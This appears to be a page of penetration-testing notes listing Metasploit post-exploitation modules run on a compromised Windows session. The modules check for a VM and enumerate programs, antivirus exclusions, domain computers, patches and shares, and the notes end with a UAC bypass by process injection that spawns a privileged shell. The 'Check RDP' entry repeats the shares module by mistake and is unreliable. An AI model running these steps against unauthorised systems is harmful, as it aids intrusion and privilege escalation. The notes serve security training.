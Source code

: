 **Virtual Machine**

```bash
msf6> use post/windows/gather/checkvm
msf6> set session 1
msf6> run
```

**Installed program enumeration**

```bash
msf6> use post/windows/gather/enum_applications
msf6> set session 1
msf6> run
```

**AVs detection**

```bash
msf6> use post/windows/gather/enum_av_excluded
msf6> set session 1
msf6> run
```

**Domain computer enumeration**

```bash
msf6> use post/windows/gather/enum_computers
msf6> set session 1
msf6> run
```

**Patches enumeration**

```bash
msf6> use post/windows/gather/enum_patches
msf6> set session 1
msf6> run
```

**Shares enumeration**

```bash
msf6> use post/windows/gather/enum_shares
msf6> set session 1
msf6> run
```

**Check RDP**

```bash
msf6> use post/windows/gather/enum_shares
msf6> set session 1
msf6> run
```

#### Bypassing UAC

* User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prvent unauthorized changes from being made to the operating system.
* UAC is used to ensure that changes to the operating system require approval from the administrator.
* We can utilize the **Windows Escalate UAC Protection Bypass (In Memory Injection)** module to bypass UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off.
